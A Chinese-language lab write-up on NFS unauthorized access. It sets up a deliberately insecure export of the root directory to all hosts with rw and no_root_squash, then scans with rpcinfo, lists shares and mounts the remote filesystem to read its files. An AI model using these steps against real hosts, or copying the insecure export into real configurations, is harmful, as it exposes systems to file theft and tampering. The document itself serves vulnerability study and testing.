

# NFS未授权访问漏洞

## 漏洞描述

NFS（Network File System）是一种网络文件系统，允许在不同的网络主机上共享文件。当NFS服务器未正确配置或缺少访问控制机制时，可能存在未授权访问漏洞。攻击者可以利用此漏洞访问受影响主机上的文件和数据，甚至可以修改或删除敏感信息。

## 环境搭建

```
# 安装nfs服务
yum install nfs-utils.x86_64 -y

# 启动服务
systemctl start nfs-server.service

# 设置开机自启
systemctl enable rpcbind.service
systemctl enable nfs-server.service

# 配置nfs
vim /etc/exports

/ *(rw,sync,no_root_squash)

# 启动共享
exportfs -r
```

## 漏洞利用

查看共享

```
[root@localhost tmp]# showmount -e
Export list for localhost.localdomain:
/ *
```

客户端挂载命令

```
mkdir /tmp/test
mount -t nfs 192.168.32.183:/ /tmp/test
```

扫描nfs

```
[root@localhost tmp]# rpcinfo -p 192.168.32.183
   program vers proto   port  service
    100000    4   tcp    111  portmapper
    100000    3   tcp    111  portmapper
    100000    2   tcp    111  portmapper
    100000    4   udp    111  portmapper
    100000    3   udp    111  portmapper
    100000    2   udp    111  portmapper
    100005    1   udp  20048  mountd
    100005    1   tcp  20048  mountd
    100005    2   udp  20048  mountd
    100024    1   udp  38880  status
    100005    2   tcp  20048  mountd
    100024    1   tcp  60551  status
    100005    3   udp  20048  mountd
    100005    3   tcp  20048  mountd
    100003    3   tcp   2049  nfs
    100003    4   tcp   2049  nfs
    100227    3   tcp   2049  nfs_acl
    100003    3   udp   2049  nfs
    100003    4   udp   2049  nfs
    100227    3   udp   2049  nfs_acl
    100021    1   udp  48592  nlockmgr
    100021    3   udp  48592  nlockmgr
    100021    4   udp  48592  nlockmgr
    100021    1   tcp  42350  nlockmgr
    100021    3   tcp  42350  nlockmgr
    100021    4   tcp  42350  nlockmgr
```

查看挂载的目录，会出现所有的/目录下的文件

```
ls /tmp/test/
```

